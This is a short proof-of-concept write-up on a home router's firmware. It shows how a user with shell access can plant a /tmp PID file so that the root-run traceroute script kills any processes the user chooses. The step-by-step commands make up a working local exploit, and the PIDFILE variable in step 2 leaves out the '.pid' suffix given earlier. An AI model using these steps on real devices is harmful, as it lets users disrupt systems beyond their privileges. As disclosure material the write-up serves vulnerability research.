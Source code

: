 # Kill Processes as Root

This document describes how a user with access to the shell and to the
web interface is able to kill processes with root rights.

## Description

The web interface allows the execution of traceroute. This command will
be run as root. To block multiple executions of traceroute a PID file is created.

PID file: `/tmp/Traceroute_Device.IP.Diagnostics.TraceRoute.pid`

If the user starts a new traceroute from the web the `/etc/ah/Traceroute.sh`
will be called. One of the first lines states:

```sh
[ -e /tmp/Traceroute_${obj}.pid ] && for pid in `cat /tmp/Traceroute_${obj}.pid`;
  do kill $pid;
done;
rm /tmp/Traceroute_${obj}.pid;
killall traceroute;
```

We now know all PID's in the file will be killed (as well as all other
traceroute processes) but the important part:
*This PID file doesn't exist on startup* so if you create it on your own you can
fill it with whatever PID's you want.

## Steps

 1. Get shell access (see [Escape from CLISH](/poc/escape_clish))
 2. `PIDFILE=/tmp/Traceroute_Device.IP.Diagnostics.TraceRoute`
 3. Choose which process you want to kill
   * List processes with `ps` (aux not needed ;)
   * Select processes to kill.
   * `PIDS="1234 2345"`
 4. `ls $PIDFILE`
    * If the file exists remove it. An existing PID file can be removed by
      either rebooting the rooter or by starting a traceroute and cancel it
      before it ends.
 5. Create file
   * `echo "$PIDS" >"$PIDFILE"`
 6. Start traceroute to random host from web interface
 7. ????
 8. PROFIT!!!


## Ping
PID: `IPPing_Device.IP.Diagnostics.IPPing.pid`
